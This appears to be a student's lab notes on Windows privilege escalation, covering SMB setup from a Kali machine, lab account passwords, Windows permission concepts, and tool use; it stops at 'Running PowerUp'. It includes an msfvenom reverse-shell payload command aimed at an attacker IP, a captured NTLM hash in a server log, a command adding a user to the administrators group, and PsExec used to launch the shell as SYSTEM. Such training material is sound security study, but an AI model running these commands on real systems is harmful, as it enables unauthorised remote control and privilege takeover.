

#Windows Privilege Escalation


## 1.  Setup

1. download/use the tools provided , to kali machine
2. start the smb server in kali (make sure to start in tools folder)
```bash
─$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py tools .
[sudo] password for kali: 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (192.168.37.131,50230)
[*] AUTHENTICATE_MESSAGE (MSEDGEWIN10\IEUser,MSEDGEWIN10)
[*] User MSEDGEWIN10\IEUser authenticated successfully
[*] IEUser::MSEDGEWIN10:aaaaaaaaaaaaaaaa:8231d216e3e510a4c19ef0b503c56158:01010000000000008069a700b73dd70107d750ad4186882d000000000100100058004d0077004200410079004c0068000300100058004d0077004200410079004c0068000200100062007700610052004300700055005a000400100062007700610052004300700055005a00070008008069a700b73dd70106000400020000000800300030000000000000000000000000300000f3f0f608a3ec7c26cd886794c03fb2fd5403dc6a814009a2f1168cb99cd4b5580a001000000000000000000000000000000000000900260063006900660073002f003100390032002e003100360038002e00330037002e00310032003800000000000000000000000000
[-] Unknown level for query path info! 0x109
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:TOOLS)
[*] Closing down connection (192.168.37.131,50230)
[*] Remaining connections []
```
3. [Log in as : `IEUser`]In windows machine open Powershell(run as administartor)
4. start the smb server 

    ```powershell
    PS C:\Windows\system32> Enable-WindowsOptionalFeature -Online -Featurename "SMBProtocol-Client" -All
    
    ```

4a. if the above command does'nt work(in my case) use:

```powershell
PS C:\Windows\system32>Get-WIndowsOptionalFeature -Online -FeatureName "SMB1Protocol"
```


5. Turn on optional feature by typing `optionalfeatures.exe` in powershell.
6. Enable `SMB File Sharing Support` and `SMB Direct`.
7. Restart the machine.
8. Login as IEuser and run cmd as administrator and `cd` to `Desktop`
9. copy the setup script from kali smb server

```powershell
    copy \\192.168.37.128\tools\setup.bat .
```
10. Run the setup.bat
```powershell
   .\setup.bat
```
11. Restart windows (you will see new account and PrivEsc folder in `C`): Login as User `user`  with password `password321`


## 2. Accounts on Windows Machine


<hr>

IEUser - Password - `Passw0rd!`  
admin- `password123`  
user - `password321`  

<hr>


## 3. Privilege Escalation in Windows 

- Privilege Escalation can be simple (e.g. a kernel exploit) or requires a lot of reconnaissance on the compromised system.

- In a lot of cases, privilege escalation may not simply rely on a single misconfiguration, but may require you to think, and combine multiple misconfigurations.

- All privilege escalations are effctively examples of access control violations.
- Access control and user permissions are intriniscally linked.
- When focusing on privilege escalations in Windows, understanding how Windows handles permissions is very important.

### 3.1 Understanding Permissions in Windows


**User Accounts**  
- User accounts are used to log into windows sysrtem.
- think of a user account as a collection of settings/preferences bound to a unique identity.
- The local `administrator` account is created by default at installation.
- Several other default user accounts may exist (e.g. `Guest`) depennding on ther version of windows. 

**Service Accounts**

- Service accounts are(somewhat obviously) used to run services in windows.
- Service accounts cannot be used to sign into a windows system.
- The ***System*** account is a default service account which has the highest privileges of any local account in windows.
- Other default service accounts include ***NETWORK SERVICE*** and ***LOCAL SERVICE***


**Groups**  
- User accounts can belong to multiple Groups, and Groups can have multiple users.Groups can even belong to other Groups.
- Groups allow for easier access control to resources, by setting up group wide permissions to all members of the group, rather than having to set the permissions individually.
- Regular groups(e.g. Administrators, Users) have a set list of members.
- Pseudo groups(e.g. "Authentication Users") have a dynamic list of members which changes based on certain ineteractions.  


**Resources**  
- In Windows, there are multiple type of resources(also known as objects):
    - Files/Directories
    - Registry entries
    - Services
- Whether a user and/or group has permission to perform a certain action on a resource depend on that resources's access control list(ACL).


**ACLs & ACEs**  
- Permissions to access a certain resource in windows are controlled by the access control list(ACL) for that resource.
- Each ACL is made up of zero or more access control entries(ACEs).
- Each ACE defines the relationship between a principle(e.g. a user, group) and a certain access right.




<hr>

## 4.Spawning Administrative Shells


- If we can execute commands with admin privileges, a reverse shell generated by mesfvenom works nicely:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.37.128 LPORT=53 -f exe -o reverse.exe
```
- This reverse shell can be caught using netcat or Metasploit's own multi/handler.

1. generate reverse shell in tools directory in kali
2. copy the `reverse.exe` in windows machine
```cmd
C:\PrivEsc>copy \\192.168.37.128\tools\reverse.exe .
    (1) file(s) copied .
```
3. run the exe file from cmd
    ```cmd
    c:\PrivEsc> reverse.exe
    ```
4. reverse shell can now be seen in attcker machine(kali)
```bash
$:
connect to [192.168.37.128] from (UNKNOWN) [192.168.37.131] 50626
Microsoft Windows [Version 10.0.17763.379]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\PrivEsc>ls

```

### 4.1 RDP

Alternatively, if RDP is available(or enable it), we can add out low privileged user to the administrators group and then spawn an administarors command prompt via the GUI

```bash
net localgroup administrators <username> /add
```


## 5. Privilege Escalation tools


### 5.1 Why use Tools

- Tools allw us to automate the reconnaissance that can identify potential privilege escalations.
- While it is always important to understand what tools are doing, they are valuable in a time-limited setting, such as exam.
- We will use mostly,  `WinPEAS` and Seatbelt.

### 5.2 Admin -> System

To escalate from and admin user to full SYSTEM privileges, we can uise the `PsExec` tool from Windows Sysinternals

- usage
```bash
C:\PrivEsc: .\PsExec64.exe -accepteula -i -s C:\PrivEsc\reverse.exe
```


#### 5.2.1 PowerUp & SharpUp

- PowerUp & SharpUp are very similar tools that hunt for specific privilege escalation misconfigurations.
- PowerUp: (written using powershell)
https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1
- SharpUp: https://github.com/GhostPack/SharpUp
Pre-Compiled SharpUp: https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/SharpUp.exe


- Limited Enumeration but good


- Running PowerUp


<br><br/><br><br/><br><br/><br><br/><br><br/><br><br/>
<br><br/><br><br/><br><br/><br><br/><br><br/><br><br/>
